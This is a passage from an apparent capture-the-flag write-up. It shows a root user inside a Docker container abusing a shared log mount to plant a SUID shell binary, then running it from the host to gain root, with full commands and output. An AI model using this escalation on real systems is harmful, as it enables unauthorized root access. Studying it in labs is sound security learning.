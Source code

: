 ### Reach for root from the other side

Again, I spent a lot of time enumerating the host. It was clear to me that this machine hosts the Docker container that, in turn, hosts the website that is susceptible to what could very, very loosely be described as a "Python sandbox escape". But remember the mount point in the container? It turns out that `/var/log` on the host and `/mnt/log` in the container are shared.

```text
connor@pythonplayground:/var/log$ ls -1
alternatives.log
apt
auth.log
bootstrap.log
btmp
cloud-init.log
[...and so on]

# pwd; ls -1
/mnt/log
alternatives.log
apt
auth.log
bootstrap.log
btmp
cloud-init.log
[...and so on]
```

The `/var/log` directory and its contents are owned by `root` so there's no way Connor would be able to add or edit any files in there. However, I am `root` in the container and a quick look at `ps aux` in the host machine verifies that the Docker container is actually executed by the `root` user. I attempted to create a file in the `/mnt/log` directory inside the container and check its permissions and content on the host side.

```text
# echo "Hello" > test.txt

connor@pythonplayground:/var/log$ ls -l test.txt
-rw-r--r-- 1 root root 6 Oct 14 18:36 test.txt
connor@pythonplayground:/var/log$ cat test.txt
Hello
```

Cool. The file I created within the container is owned by `root` on the host system. Now there's many ways to go about obtaining a shell as `root`. I wrote myself a tiny C program that pops a shell in the same way you've seen it in every binary exploitation challenge ever. I compiled it inside the container and set the SUID bit so it ran on behalf of the `root` account.

```text
# echo 'int main() { setuid(0); system("/bin/sh"); }' > hax.c
# gcc hax.c -o hax
hax.c: In function ‘main’:
hax.c:1:14: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    1 | int main() { setuid(0); system("/bin/sh"); }
      |              ^~~~~~
hax.c:1:25: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    1 | int main() { setuid(0); system("/bin/sh"); }
      |                         ^~~~~~
# chmod u+s hax

connor@pythonplayground:/var/log$ ./hax
# id; pwd;
uid=0(root) gid=1000(connor) groups=1000(connor)
/var/log
# cd /root
# ls -al
total 36
```